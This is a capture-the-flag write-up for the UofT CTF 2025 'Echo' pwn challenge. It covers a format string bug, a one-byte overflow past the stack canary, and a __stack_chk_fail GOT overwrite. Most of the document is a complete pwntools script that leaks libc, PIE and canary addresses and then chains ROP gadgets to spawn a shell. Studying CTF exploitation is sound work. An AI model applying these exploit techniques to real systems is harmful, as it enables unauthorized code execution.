 # Echo -UofT CTF 2025 (Pwn)
Author : White  
Description : Yet another echo service. However, the service keeps printing stack smashing detected for some reason, can you help me figure it out?  
## 1. Vulnerability Summary
**Protection**  
| RELRO         | Canary | NX   | PIE  |
|---------------|--------|------|------|
| Partial RELRO | Yes    | Yes  | Yes  |  

- The program accepts unrestricted input to `printf`, resulting in a format string vulnerability
- The buffer begins at `rsp + 7`
- The stack canary resides at `rbp + 8`, allowing precisely 1 byte of overflow without triggering detection
- The `__stack_chk_fail@GOT` entry can be overwritten via format string write
## 2. Exploitation Strategy
| Step            | Detail                                                        |
|-----------------|---------------------------------------------------------------|
| GOT Overwrite   | `__stack_chk_fail@GOT` → `vuln()` using FSB (Partial Overwrite)     |
| Info Leak       | libc, PIE, stack canary via FSB          |
| ROP             | Injected after bypassing canary; uses libc gadgets            |

## 3. Exploit Code
```pythonfrom pwn import *

p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
elf = ELF('./chall')
libc = ELF('./libc.so.6')

missing_byte = int(input(), 16)

overflow_offset = 0x8 * 8 + 1

vuln = elf.symbols['vuln']

patched_addr = (vuln % 0x1000) | ((missing_byte - 3) << 12)
print(hex(patched_addr))

fmt = f'%{ (vuln % 0x1000) | ((missing_byte - 3) << 12)}lx%15$hn'.encode()
payload = fmt.ljust(overflow_offset, b'A')
payload += (elf.got['__stack_chk_fail'] % 0x100).to_bytes(1, 'big')
payload += ((missing_byte << 4)).to_bytes(1, 'big')

p.send(payload)

sleep(1)

libc_leak_offset = 3
elf_leak_offset = 9
stack_leak_offset = 22
p.send(f'%{libc_leak_offset}$lx|%{elf_leak_offset}$lx|%{stack_leak_offset}$lx'.encode())

leak = p.recvrepeat(1)
leak = leak[leak.index(b'A'):]
leak = leak[leak.index(b'7'):]

libc_base = int(leak[:12], 16) - 0x114992
print("libc base :", hex(libc_base))

pie_base = int(leak[13:25], 16) - 0x1278
print("pie base :", hex(pie_base))

binsh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.symbols['system']
pop_rdi = libc_base + 0x2a3e5
ret = pie_base + 0x101a

print("/bin/sh :", hex(binsh))
print("system :", hex(system))
print("pop rdi; ret :", hex(pop_rdi))
print("ret :", hex(ret))

sleep(1)

p.send(b'AA')
canary_leak = p.recv()[1:9]
canary = b'\x00' + canary_leak[1:]
canary = int.from_bytes(canary, 'little')
print("canary :", hex(canary))

sleep(1)

ROP = b'A'
ROP += p64(canary)
ROP += b'B' * 0x8
ROP += p64(ret)
ROP += p64(pop_rdi)
ROP += p64(binsh)
ROP += p64(system)

p.send(ROP)

p.interactive()```
